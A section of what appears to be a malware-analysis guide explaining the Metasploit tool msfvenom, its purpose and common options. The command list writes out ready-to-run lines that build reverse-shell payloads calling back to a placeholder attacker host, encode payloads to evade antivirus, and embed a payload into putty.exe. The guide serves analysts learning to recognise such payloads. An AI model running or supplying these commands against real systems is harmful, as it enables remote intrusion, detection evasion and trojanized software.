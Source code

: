 ## msfvenom

**What it is:** `msfvenom` is a command-line tool that is part of the Metasploit Framework. It's essentially a combination of two older Metasploit tools: `msfpayload` (for generating shellcode/payloads) and `msfencode` (for encoding payloads to evade detection).

**Why it's used:**
*   **Payload Generation:** Its primary purpose is to create malicious payloads (like reverse shells, meterpreter sessions, command execution stagers) for various platforms (Windows, Linux, macOS, Android, etc.) and architectures.
*   **Encoding:** It can encode these payloads using different techniques to try and bypass antivirus software or intrusion detection systems.
*   **Output Formats:** It can output payloads in various formats suitable for different exploitation scenarios (e.g., raw shellcode, executable files, script formats like Python or Perl, APK files for Android).
*   **Template Insertion:** It can embed payloads into existing legitimate executable files (though this is often less reliable than custom packers).

**Relevance to Malware Analysis:** While `msfvenom` is an offensive tool used by penetration testers and attackers, understanding how it works is valuable for analysts. It helps in recognizing common payload structures (like Meterpreter stagers) and understanding how malicious executables or scripts might be generated, especially when dealing with common attack frameworks. The example in the Android section shows how it can create a malicious APK, and analyzing such a file requires knowing what components `msfvenom` likely included.

**Common Commands and Options:**
*   **List available items:**
    *   `msfvenom -l payloads` : List all available payloads.
    *   `msfvenom -l encoders` : List all available encoders.
    *   `msfvenom -l formats` : List all available output formats.
    *   `msfvenom -l platforms` : List supported target platforms.
    *   `msfvenom -l archs` : List supported architectures.
*   **Generate a payload:**
    *   `msfvenom -p <payload_name> [options] -f <format> -o <output_file>`
    *   *Example (Windows Reverse TCP Meterpreter):*
        `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o reverse_shell.exe`
    *   *Example (Linux Reverse TCP Shell):*
        `msfvenom -p linux/x86/shell/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f elf -o reverse_shell`
    *   *Example (PHP Reverse TCP Shell for Web Server):*
        `msfvenom -p php/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f raw -o shell.php`
*   **Encoding a payload:**
    *   `msfvenom -p <payload> [options] -e <encoder> -i <iterations> -f <format> -o <output_file>`
    *   *Example (Encoded Windows Meterpreter):*
        `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -e x86/shikata_ga_nai -i 5 -f exe -o encoded_shell.exe`
*   **Using a template (embedding payload):**
    *   `msfvenom -p <payload> [options] -x <template_executable> -f exe -o output_file.exe`
    *   *Example (Embed into putty.exe):*
        `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -x /usr/share/windows-resources/binaries/putty.exe -f exe -o infected_putty.exe`
